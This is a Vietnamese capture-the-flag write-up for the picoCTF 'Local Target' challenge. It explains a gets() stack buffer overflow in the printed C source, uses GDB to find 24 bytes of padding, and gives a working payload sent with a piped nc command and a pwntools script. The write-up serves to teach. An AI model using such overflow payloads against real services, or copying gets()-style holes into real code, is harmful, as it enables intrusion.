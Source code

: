 # Local Target

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>

int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}
```

b) Nhận xét

- Mục đích của ta là ghi đè biến num thành giá trị 65 thông qua mảng input. Nhưng mảng input lại được khai báo trước nên nó không thể ghi đè vào biến num

## 2. Ý tưởng khai thác

- Mặc dù trên lý thuyết mảng input được khai báo trước thì nó phải có địa chỉ cao hơn biến num trên stack, nhưng thực tế thì compiler có thể sắp xếp lại các biến để đảm bảo alignment cho hiệu năng tốt hơn. Để kiểm tra giả thiết này ta sẽ thử debug bằng gdb
- Đầu tiên, xem mã assembly của chương trình, dễ thấy địa chỉ của biến num là rbp-0x8:

![image.png](image.png)

- Tiếp theo, ta cần đặt breakpoint sau câu lệnh gets input (breakpoint có tác dụng tạm dừng việc thực thi chương trình tại một điểm cụ thể giúp kiểm tra trạng thái của chương trình tại thời điểm đó, bao gồm giá trị của các biến, nội dung của bộ nhớ, stack frame,…)
Vì câu lệnh gets có địa chỉ là 0x401275 nên ta đặt breakpoint tại câu lệnh tiếp theo (0x40127a)

![image.png](image%201.png)

![image.png](image%202.png)

- Sau đó ta dùng câu lệnh run và nhập chuỗi string:

![image.png](image%203.png)

- Dùng câu lệnh “x/s $rsp-0x20” để in ra chuỗi chứa trong địa chỉ rsp-0x20. Ta thấy đó chính là chuỗi input mà ta đã nhập vào, vậy rsp-0x20 chính là địa chỉ của input

![image.png](image%204.png)

- Sau khi debug thì ta thấy phỏng đoán ban đầu hoàn toàn là đúng: biến num được xếp trước mảng input trong stack nên ta có thể ghi tràn mảng input để đè vào biến num. Padding ở đây là 0x20-0x8=0x18 (=24 trong hệ thập phân)

## 3. Tiến hành khai thác

- Cách 1: truyền bằng pipe:
  + Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7\x41 (41 trong hex = 65 trong decimal)
  + Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7\x41"; cat) | nc saturn.picoctf.net 65514
```

![image.png](image%205.png)

- Cách 2: dùng file thực thi
  + Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 65514)
payload = b'a'*24 + p64(65)

p.sendline(payload)
p.interactive()
```

![image.png](image%206.png)

## 4. Kết luận

- Không phải lúc nào các biến nội bộ cũng được sắp xếp trong stack theo đúng thứ tự
